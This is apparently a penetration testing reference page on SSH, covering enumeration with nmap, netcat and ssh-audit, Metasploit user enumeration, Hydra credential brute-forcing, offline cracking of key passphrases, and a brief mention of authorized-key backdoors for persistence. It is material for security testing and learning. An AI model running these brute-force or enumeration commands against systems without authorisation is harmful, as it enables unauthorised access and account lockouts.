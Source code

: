 ```yaml
---
description: Port TCP 22
---
```


# SSH

## Theory

SSH or Secure Shell or Secure Socket Shell, is a network protocol that gives users a secure way to access a computer over an unsecured network.

SHH protocol operate by default on **TCP port 22**

## Practice

### Enumerate SSH server

{% tabs %}
{% tab title="Nmap" %}
We can use nmap to enumerate informations about the running SSH server

```bash
# Send default nmap scripts for SSH and retreive version
nmap -p22 <ip> -sC -sV

# Send all nmap ssh related scripts
nmap -p22 <ip> --script ssh-*

# Retrieve supported algorythms 
nmap -p22 <ip> --script ssh2-enum-algos

# Retrieve weak keys
nmap -p22 <ip> --script ssh-hostkey --script-args ssh_hostkey=full

# Check authentication methods for an user
nmap -p22 <ip> --script ssh-auth-methods --script-args="ssh.user=root"
```
{% endtab %}

{% tab title="Netcat" %}
We can use Netcat to enumerate the SSH server banner

```bash
nc -vn <IP> 22
```
{% endtab %}

{% tab title="ssh-audit" %}
[ssh-audit](https://github.com/jtesta/ssh-audit) (python) may be used for ssh server & client configuration auditing.

```bash
#Basic audit
python ssh-audit.py <IP>
```
{% endtab %}
{% endtabs %}

### Enumerate Users

{% tabs %}
{% tab title="Metasploit" %}
In some versions of OpenSSH you can make a timing attack to enumerate users. You can use a metasploit module in order to exploit this:

```bash
msfconsole
msf> use auxiliary/scanner/ssh/ssh_enumusers
```
{% endtab %}
{% endtabs %}

### Brute-Force Credentials

{% hint style="info" %}
If the target host opens port 80 or 443, you can generate [wordlist from the contents of the website](../passwd/generate-wordlists.md#cewl) then use it with your tool.
{% endhint %}

{% tabs %}
{% tab title="Hydra" %}
When bruteforcing accounts, you may lock accounts

```bash
# -t : Number of tasks
# -L/l : username list / username 
# -P/p : password list / password
hydra -l username -P passwords.txt <target-ip> ssh -t 4
hydra -L usernames.txt -p password <target-ip> ssh -t 4

# -s : Specific port
hydra -l username -P passwords.txt -s 2222 <target-ip> ssh -t 4
hydra -l username -P passwords.txt ssh://<target-ip>:2222 -t 4
```
{% endtab %}
{% endtabs %}

### Crack SSH Private Key

Some private keys require a password or passphrase for operation, so we may attempt to [Brute Force](https://attack.mitre.org/techniques/T1110) the passphrase [off-line](../passwd/brute-force/offline.md).

{% content-ref url="../../credential-access/ssh-private-keys.md" %}
[ssh-private-keys.md](../../credential-access/ssh-private-keys.md)
{% endcontent-ref %}

### Persistence

It's possible to backdoor an SSH public key using the `command=` argument. The backdoor will execute whenever the user logs in using this key.

{% content-ref url="../../../linux/persistence/ssh.md" %}
[ssh.md](../../../linux/persistence/ssh.md)
{% endcontent-ref %}

## Resources

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh" %}

{% embed url="https://exploit-notes.hdks.org/exploit/network/protocol/ssh-pentesting" %}
